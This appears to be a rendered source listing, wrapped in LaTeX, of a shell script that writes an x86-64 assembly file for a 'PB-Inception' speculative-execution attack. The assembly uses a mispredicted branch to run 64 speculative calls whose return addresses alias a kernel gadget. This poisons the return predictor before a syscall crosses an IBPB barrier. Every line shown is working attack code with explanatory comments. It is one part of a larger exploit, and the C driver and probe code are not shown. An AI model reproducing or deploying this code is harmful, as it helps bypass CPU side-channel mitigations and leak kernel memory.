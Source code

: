 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
info "Writing user ASM (pre-IBPB transient training) - pbinc.asm"
cat > "${USER_DIR}/pbinc.asm" <<'EOF'
global pbinc_entry
extern __pbinc_kernel_gadget_addr     ; From C driver: patched with KVA of kernel gadget
extern __pbinc_probe_shared           ; From C driver: VA of shared probe buffer (1MB)
extern __alias_tbl                    ; Runtime-patched: array of 64 callsite trampoline entry pointers
extern __slow_predicate_ptr           ; Runtime: mapped slow memory (used to delay JE resolution)

section .text

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Entry point for the PB-Inception userland training harness
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pbinc_entry:
    call pre_ibpb_transient_train   ;Run transient training before IBPB
    mov  rax, 39                    ; getpid -> syscall entry (IBPB boundary)
    syscall                         ; Cross IBPB boundary (causes entry-IBPB in guest)
.spin:
    pause                           ; Not kill threat -> inf loop -> keep-alive threat
    jmp  .spin

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Pre-IBPB transient training block
; - Uses a backward mispredicted JE to speculatively execute call cascade
; - No call here retires (training must be transient-only)
; => 64 calls -> return predictor pressure
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pre_ibpb_transient_train:
    jmp  .do_branch                ; Skip call cascade architecturally (forward jump)
                                   ; Under normal (architectural) execution, the call cascade never runs
                                   ; Means if the "normal" paths are taken it wouldnt run

.speculative_call_cascade:
    mov  rsi, [rel __alias_tbl]    ; Load pointer to trampoline entry array (call sites)
    mov  ecx, 64                   ; Number of transient call targets
.alias_loop:
    call qword [rsi]               ; Speculative CALL -> pushes RA to stack -> biases return predictor
    add  rsi, 8                    ; Trampolines are crafted to have return addresses that alias the kernel gadget
    dec  ecx                       ; Advance to next entry in trampoline table
    jnz  .alias_loop               ; Loop until all 64 calls are issued -> until z-flag not 0
    ret

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Branch predicate that keeps JE unresolved long enough to execute the cascade
; - Must not use lfence -> all memory loads before lfence must complete -> not speculatively run anymore
; - The memory at __slow_predicate_ptr should be slow (uncached / fault-suppressed / mapped to delay)
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
.do_branch:
    mov  rdx, [rel __slow_predicate_ptr]  ; runtime: slow mapped memory
    mov  rax, [rdx]
    cmp  rax, 0xdeadbeef
    je   .speculative_call_cascade        ; backward Jcc (target above)
    ret


\end{lstlisting}
\end{document}
